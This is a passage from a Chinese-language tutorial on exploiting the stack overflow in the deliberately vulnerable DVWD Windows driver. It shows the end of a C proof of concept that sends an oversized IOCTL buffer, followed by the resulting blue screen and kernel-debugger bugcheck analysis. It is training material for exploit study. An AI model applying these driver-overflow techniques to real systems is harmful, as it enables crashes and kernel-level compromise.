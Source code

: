 ```
    0, 
    NULL);
 printf("\tHandle: %p\n",hDevice);
 getch();

 printf("[~] Send IOCTL DEVICEIO_DVWD_STACKOVERFLOW with junk data...\n");
 DeviceIoControl(hDevice, DEVICEIO_DVWD_STACKOVERFLOW, &junk, strlen(junk), NULL, 0, NULL, NULL);


 CloseHandle(hDevice);
 return 0;
}

```

代码浅显易懂,它仅发送512-字节的垃圾数据（事实上是511个’A’+’\0’）.这应该足以溢出驱动使用的buffer了,它才64-字节长) 好的，让我们编译并运行上面的代码吧,这是我们得到的结果:

![enter image description here](http://drops.javaweb.org/uploads/images/312bc8c309d9b3a77ba0b677371a13d42bca2ea5.jpg)

BOUM!一个很棒的BSOD发生了！

现在我们将用于测试的windows VM附加到远程内核调试器中,那事实上正在另一台windows VM中运行.所有关于使用VMware搭建的远程调试环境的细节已在这篇文章中(1]给出.

我们再次运行代码,将buffer发送到驱动后,windows VM冻结了.

![enter image description here](http://drops.javaweb.org/uploads/images/f5ab868c847de3ede746464519efa063f7b36d30.jpg)

…同时,远程内核调试器检测到了”fatal system error”：

```
*** Fatal System Error: 0x000000f7
                       (0xB497BD51,0xF786C6EA,0x08793915,0x00000000)

Break instruction exception - code 80000003 (first chance)

A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.

```

为了得到更多信息,我们输入!analyze –v，接着我们得到结果如下:

```
kd> !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

DRIVER_OVERRAN_STACK_BUFFER (f7)
A driver has overrun a stack-based buffer.  This overrun could potentially
allow a malicious user to gain control of this machine.
DESCRIPTION
A driver overran a stack-based buffer (or local variable) in a way that would
have overwritten the function's return address and jumped back to an arbitrary
address when the function returned.  This is the classic "buffer overrun"
hacking attack and the system has been brought down to prevent a malicious user
from gaining complete control of it.
Do a kb to get a stack backtrace -- the last routine on the stack before the
buffer overrun handlers and bugcheck call is the one that overran its local
variable(s).
Arguments:
Arg1: b497bd51, Actual security check cookie from the stack
Arg2: f786c6ea, Expected security check cookie
```